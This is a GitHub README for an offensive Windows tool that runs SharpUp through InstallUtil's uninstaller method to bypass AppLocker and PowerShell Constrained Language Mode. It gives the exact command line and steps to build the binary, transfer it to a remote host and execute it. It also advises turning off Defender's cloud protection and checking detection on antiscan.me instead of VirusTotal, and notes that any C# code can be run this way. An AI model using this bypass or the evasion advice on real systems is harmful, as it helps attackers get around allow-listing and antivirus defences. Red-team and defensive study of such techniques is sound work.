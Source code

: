## Bypass for Applocker and Powershell Constrained Language Mode via InstallUtil Uninstaller Method to run SharpUp

----


## Usage

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe  /LogToConsole=true /U C:\Users\root\Desktop\SharpUp.exe
			
Steps
	
  1)Build the project
  2)Transfer the build exe to the rhost 
  3)Run the executable using InstallUtil -  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe  /LogToConsole=true /U C:\Users\root\Desktop\SharpUp.exe
						
```

## Compile Instructions

This Project has been built against .NET 4.0 x64 and is compatible with [Visual Studio 2019 Community Edition]. Simply open up the project .sln, choose "release", and build before the required changes
.

## Notes
* The SharpUp Argument used here is "audit"
* when testing on a windows machine , disable the "Cloud Delivered Protection" , Off
* Use https://antiscan.me/ instead of virus total if you wanna validate the signatures
* You could run any c# code to bypass Applocker via "public class SharpUp : System.Configuration.Install.Installer" method



## Shout Out

[@harmj0y](https://twitter.com/harmj0y)

* https://github.com/GhostPack/SharpUp

